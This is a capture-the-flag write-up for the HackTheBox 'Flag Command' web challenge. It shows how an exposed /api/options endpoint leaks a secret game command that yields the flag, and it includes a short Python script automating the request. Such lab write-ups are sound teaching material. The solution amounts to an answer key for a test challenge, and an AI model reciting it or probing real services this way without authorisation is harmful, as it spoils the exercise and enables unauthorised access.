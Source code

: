 # Flag Command - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We first receive the Host information: `83.136.255.10:55943`
![[Pasted image 20250502073519.png]]

Putting this in our web browser, we are faced with a website that is telling a story about being in a alien forest. We are prompted to type 'start' to start our adventure:
![[Pasted image 20250502073705.png]]

Going through the adventure with the available adventure options, we die and have to start again:
![[Pasted image 20250502073841.png]]

We can view the main script for the game in the source code. Here we can find if the game displays 'HTB{', then we win the game:
![[Pasted image 20250502074403.png]]

When trying to put in other JavaScript commands, we are told we can't use other commands, and we must choose from the available options (which are displayed using the command 'help'):
![[Pasted image 20250502075240.png]]

Exploring different avenues, we can find a GET request being sent to '/api/options' in the Network tab of our developer's tool:
![[Pasted image 20250502075512.png]]

Going to this destination, we can find all the command options for when we start the game. At the bottom, we see the secret value:
![[Pasted image 20250502075557.png]]
Secret: `Blip-blop, in a pickle with a hiccup! Shmiggity-shmack`

## Exploitation
We can start the game with 'start', then enter the 'secret' value into the command-line to get the flag:
![[Pasted image 20250502075817.png]]

# Automation with Python
We can write the following script to automate the process of retrieving the secret value, starting the game, and importing the secret command and exporting the flag:
```python
import requests

# Set target base URL and start a session
base_url = 'http://83.136.255.10:55943'
session = requests.Session()

# Load the main page (initialize session)
session.get(base_url)

# Fetch available command options
options_url = f"{base_url}/api/options"
response = session.get(options_url)
data = response.json()

# Extract the secret command from the response
secret = data['allPossibleCommands']['secret'][0]
print(f"Secret command: {secret}")

# Prepare and send the secret command to the server
command_url = f"{base_url}/api/monitor"
headers = {
  "Content-Type": "application/json",
  "Origin": base_url,
  "Referer": base_url + "/"
}
payload = {"command": secret}
response = session.post(command_url, json=payload, headers=headers)

# Extract and print the flag from the response
print("[+] Response from server:")
flag = response.text
flag_start = flag.find("HTB{")
flag_end = flag.find("}", flag_start) + 1
flag = flag[flag_start:flag_end]
print(flag)
```
- First we utilize the `requests` library to send HTTP requests in python
- Then we capture the data from `/api/options` and extract the secret
- We then send a request to the receiving endpoint `/api/monitor` with the necessary headers, as well as our JSON payload
- Lastly, we extract the response from the server and filter out the flag to only respond with the value of the flag

Running the script we get the following:
![[Pasted image 20250502090111.png]]
